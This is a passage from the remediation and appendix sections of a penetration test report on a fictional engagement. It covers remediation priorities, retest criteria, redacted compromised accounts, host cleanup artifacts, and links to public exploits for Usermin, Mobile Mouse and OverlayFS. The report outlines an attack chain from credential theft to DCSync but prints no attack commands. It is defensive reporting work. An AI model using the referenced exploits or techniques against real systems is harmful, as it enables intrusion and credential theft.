| **TOTAL** | **9** | Nine reported finding records |

These counts refer to report findings, not compromised hosts or individual weaknesses. F-04 and F-08 group multiple steps and root causes into their respective initial access paths. The supplied starting credentials and successful DCSync are prerequisites or impact evidence, rather than additional findings. Zero medium or low findings means none were reported in this assessment; it does not establish that none exist.

Ratings reflect this assessment's qualitative methodology and the demonstrated environment. They are not CVSS scores.

## Consolidated Remediation Priorities

The sequence below prioritizes containment of demonstrated access, correction of its causes, and verification. Suggested owners are functional roles for the fictional engagement, not confirmed assignments or agreed deadlines. Credential recovery and configuration changes should be coordinated so that secrets are not reintroduced after rotation.

| **PRIORITY** | **RECOMMENDED ACTION** | **FINDINGS** | **SUGGESTED OWNER** | **VALIDATION** |
| ------------ | ---------------------- | ------------ | ------------------- | -------------- |
| Immediate containment | Restrict vulnerable management and remote control interfaces to approved sources. Disable the state-changing SNMP extension and remove unnecessary Mobile Mouse exposure. | F-04, F-06, F-08 | Network and system administration | Unapproved sources cannot reach the interfaces; SNMP reads cannot change account state. |
| Privileged credential recovery | Remove exposed credentials from binaries, command history workflows, and member-host storage; coordinate account and service secret rotation. Assess domain recovery following demonstrated credential replication. | F-01, F-02, F-03, F-08 | Identity and system administration | Previous secrets no longer authenticate; member hosts no longer retain domain administrator credentials. |
| Privileged execution controls | Correct service file ownership and ACLs, service control rights, and tar argument handling. Restrict write access to privileged task inputs and working directories. | F-05, F-07 | Windows and Linux administration | The original low-privileged accounts cannot alter privileged execution paths or reproduce escalation. |
| Application and platform remediation | Update or remove affected applications, patch the applicable Ubuntu kernel, and verify the running kernel after reboot. Restrict unused application modules and scheduling rights. | F-04, F-06, F-08, F-09 | Application and platform owners | The demonstrated command execution and kernel exploitation paths fail under equivalent starting conditions. |
| Credential and access hardening | Enforce unique local administrator passwords, improve password selection, replace unnecessary anonymous FTP access, and separate administrative tiers. | F-01, F-02, F-03, F-04 | Identity and infrastructure teams | Credential reuse tests fail; anonymous access exposes no internal documents; privileged logons follow the intended tier boundaries. |
| Monitoring and closure | Retain security logging, review authentication and replication activity, restore test-modified state, and complete an independent remediation retest. | F-01 through F-09 | Security operations and system owners | Cleanup evidence is recorded; monitoring is verified; each finding has a documented retest result. |

## Retest and Closure Criteria

- Record the responsible owner, applied change, change date, and supporting evidence for each finding.
- Repeat the relevant reproduction steps using equivalent network access and account privileges, with approval for any state-changing actions.
- Verify the underlying weakness was corrected and that the documented attack chain is interrupted. A single blocked step does not establish that every contributing issue is resolved.
- Record each finding as remediated, partially remediated, unresolved, or not retested. An accepted risk requires an accountable owner and documented rationale.
- Confirm removal of assessment artifacts and restoration of modified services, scheduled jobs, permissions, and account state using the cleanup inventory.

## Overall Assessment

The documented results demonstrate systemic weaknesses in credential handling and privileged execution controls, together with exposed management services and a vulnerable kernel. The domain chain shows how secrets recovered from one host can extend an initial foothold into domain administrator access. The standalone paths show that application exposure and local configuration weaknesses can independently lead to complete host compromise.

The recommended response is to contain reachable attack paths, remove and rotate exposed secrets, correct privileged file and task permissions, apply validated updates, and retest the original chains. No remediation or cleanup item is considered closed by this report alone.

# Appendices

## Compromised Users

| **USERNAME** | **PASS/HASH** | **SOURCE** | **METHOD** |
| ------------ | ------------- | ---------- | ---------- |
| REDACTED_USER_01 | REDACTED_PASSWORD_01 | Supplied starting account | WinRM / SSH access to AD-HOST-01 |
| REDACTED_ADMIN | REDACTED_PASSWORD_02 | AD-HOST-01 administrative binary | Readable strings extraction |
| REDACTED_ADMIN (local) | REDACTED_PASSWORD_03 | AD-HOST-01 PowerShell history | Administrative authentication to AD-HOST-02 |
| REDACTED_ADMIN (domain) | REDACTED_PASSWORD_04 | AD-HOST-02 registry secrets | Domain controller access and DCSync |
| REDACTED_USER_02 | REDACTED_PASSWORD_06 | Anonymous FTP metadata and weak password | FTP guessing and Usermin credential reuse |
| REDACTED_USER_05 | Not recovered in supplied text | APP-HOST-02 application process | Mobile Mouse remote command execution |
| REDACTED_USER_06 | REDACTED_PASSWORD_07 | APP-HOST-03 SNMP extension | Password reset, disclosure, and Vesta login |

**Redaction Note:** The anonymous FTP login and SNMP community value are also redacted in commands. Repeated password placeholders represent the same original value. Distinct placeholders represent different values. Built-in privilege identities such as `root` and `NT AUTHORITY\SYSTEM` are retained where needed to show the achieved privilege level. These are evidence labels, not unredacted personal account names.

## Host Cleanup

The following artifacts and state changes are documented. Removal or restoration must be confirmed from cleanup records; completion is not established by the supplied evidence.

| **HOST** | **SCOPE** | CLEANUP NEEDED |
| -------- | --------- | -------------- |
| AD-HOST-01 / tester | Ligolo agent, proxy, tunnel interface, routes, downloaded administrative utility, enumeration output | Terminate sessions, remove transferred files and temporary routes, and retain evidence under an agreed policy |
| AD-HOST-02 / tester | Exported SAM, SYSTEM, SECURITY hives and secretsdump output | Remove host exports; protect and dispose of retained copies under the evidence policy; rotate exposed secrets |
| AD-DC-01 / tester | Domain credential replication output | Secure recovered domain secrets and coordinate domain recovery; removal of output does not invalidate replicated credentials |
| APP-HOST-01 | Tar option files, privesc.sh, sudoers modification, Usermin GnuPG artifacts, reverse shell FIFO | Remove test artifacts; restore and validate sudoers from an approved baseline; review generated GnuPG objects and terminate sessions |
| APP-HOST-02 | Replaced GPGService.exe, backup binary, enumeration tool, payloads, listeners | Restore the original binary, validate its integrity and service operation, remove payloads, and correct file and service permissions |
| APP-HOST-03 | Password changed by SNMP extension, Vesta cron job, /tmp/f, exploit source and binary, enumeration tool | Coordinate an account password reset, remove the cron job and artifacts, terminate sessions, and verify kernel remediation |

## Supporting Proofs of Concept

- **Usermin:** [Exploit-DB 50234](https://www.exploit-db.com/exploits/50234). The report retains the original invocation and modified callback excerpt; the complete locally modified script was not supplied.
- **Mobile Mouse:** [Rapid7 module source](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/misc/mobile_mouse_rce.rb). Module invocation and target options are retained in the walkthrough.
- **OverlayFS:** [Original referenced proof-of-concept repository](https://github.com/puckiestyle/CVE-2021-3493). Compilation and execution evidence are retained. Consult the [Ubuntu advisory](https://ubuntu.com/security/CVE-2021-3493) for affected packages and remediation.
- **Tar cron and service binary replacement:** Commands are retained inline. The tar payload redirection was corrected as a transcription issue and has not been rerun against the original target.

## Evidence and Log Availability

Selected command output is embedded in the walkthroughs. Complete raw logs, full custom wrapper implementations, and complete modified exploit source were not supplied. The screenshot references preserve the original filenames and order. Screenshots must be redacted separately before external distribution, including visible credentials, hostnames, domains, proof values, and identifying session information.
